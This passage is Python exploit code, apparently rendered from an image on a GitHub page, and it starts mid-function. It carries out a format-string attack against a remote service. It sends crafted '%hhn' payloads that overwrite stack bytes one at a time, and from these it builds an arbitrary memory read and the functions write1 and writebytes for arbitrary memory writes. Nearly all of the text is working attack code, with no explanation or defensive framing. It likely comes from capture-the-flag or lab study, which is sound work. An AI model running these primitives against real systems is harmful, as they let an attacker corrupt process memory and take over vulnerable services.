 ```python
    conn.send("%"+str(256)+"c%61$hhn")           # set byte at 0xbf..40 to '3c'
    conn.recv(300)
    
    if (address & 0xff):
        conn.send("%64c%25$hhn")           # 0xbffff940
        conn.recv(200)
        conn.send("%"+str(address & 0xff)+"c%61$hhn")           # set byte at 0xbf..40 to '3c'
        conn.recv(300)

    conn.send("%65c%25$hhn")           # next byte, 0xbffff941
    conn.recv(200)
    conn.send("%"+str((address >> 8) & 0xff)+"c%61$hhn")           # set byte at 0xbf..41 to '20'
    conn.recv(300)

    conn.send("%66c%25$hhn")           # next byte, 0xbffff942
    conn.recv(200)
    conn.send("%"+str((address >> 16) & 0xff)+"c%61$hhn")           # set byte at 0xbf..42 to '37'
    conn.recv(300)

    conn.send("%67c%25$hhn")           # final byte, 0xbffff943
    conn.recv(200)
    conn.send("%"+str((address >> 24) & 0xff)+"c%61$hhn")           # set byte at 0xbf..43 to '13'
    conn.recv(300)

    conn.send("%124$s")
    data = conn.recv(200)
    return data[3:]
        
def write1(what, where):
#       argument 25 contains 0xbffff844,
#                               which points to 0xbffff958
#       so we can use 25 to modify position 61 to write something on the stack!
#       addr = 0xbffff758 # = argument 2
    conn.send("%64c%25$hhn")           # 0xbffff940
    conn.recv(200)
    conn.send("%"+str(where & 0xff)+"c%61$hhn")           # set byte at 0xbf..40 to '3c'
    conn.recv(300)

    conn.send("%65c%25$hhn")           # next byte, 0xbffff941
    conn.recv(200)
    conn.send("%"+str((where >> 8) & 0xff)+"c%61$hhn")           # set byte at 0xbf..41 to '20'
    conn.recv(300)

    conn.send("%66c%25$hhn")           # next byte, 0xbffff942
    conn.recv(200)
    conn.send("%"+str((where >> 16) & 0xff)+"c%61$hhn")           # set byte at 0xbf..42 to '37'
    conn.recv(300)

    conn.send("%67c%25$hhn")           # final byte, 0xbffff943
    conn.recv(200)
    conn.send("%"+str((where) >> 24 & 0xff)+"c%61$hhn")           # set byte at 0xbf..43 to '13'
    conn.recv(300)

    # write byte
    if ord(what) < 100:
        conn.send("%"+str(ord(what))+"c%124$hhn")
    else:
        conn.send("%"+str(ord(what))+"c%124$hn")
    conn.recv(300)
    
def writebytes(what, where):
    for i in range(len(what)):
        write1(what[i], where+i)
```